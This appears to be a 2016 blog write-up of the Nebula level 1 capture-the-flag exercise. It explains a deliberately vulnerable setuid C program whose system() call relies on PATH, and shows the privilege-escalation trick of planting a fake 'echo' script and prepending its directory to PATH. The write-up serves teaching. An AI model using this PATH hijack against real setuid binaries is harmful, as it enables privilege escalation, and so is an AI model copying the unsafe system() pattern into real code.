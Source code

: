```yaml
---
layout: post
title:  "Exploit Excercises - Nebula: Level 1"
date:   2016-07-30 12:32:00 +0200
categories: exercises security
---
```


> There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

~~~ c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
~~~

Let's start by looking at the file on the file system.

~~~ bash
level01@nebula:~$ ls -la /home/flag01/flag01
-rwsr-x--- 1 flag01 level01 7322 2011-11-20 21:22 /home/flag01/flag01
~~~

We'll quickly spot that it has the setuid bit set and is owned by the `flag01` user, so no matter which user actually starts the binary, it will run as the `flag01` user. This is good for us, and something we'll eventually exploit.

The weakness might be obvious to you if you're familiar with the Linux command line. The `system` call in the end relies on `/bin/env` to set environment variables. We can exploit this by modifying the environment variables prior to executing the program.

Let's prepare a small script that runs the `getflag` command. Put the following content in a file called `echo` in the home directory of the `level01` user:

~~~ bash
#!/bin/sh
getflag
~~~

Now let's set the `PATH` variable to include `level01`s home directory and run the script:

~~~ bash
level01@nebula:~$ export PATH="/home/level01:$PATH"
level01@nebula:~$ /home/flag01/flag01
You have successfully executed getflag on a target account
~~~


What happened here was that we added another directory to the `PATH` variable, which the system uses to look for binaries. You can easily see what happened by using the `which` command:

~~~ bash
level01@nebula:~$ /usr/bin/env which echo
/home/level01/echo
~~~

The `flag01` binary was coded assuming that it will always call the system `echo`. By changing `PATH`, it will instead run our version and execute `getflag` as the user `flag01`.

On to the [next challenge]({% post_url 2016-07-30-exploit-exercises-level-2 %})
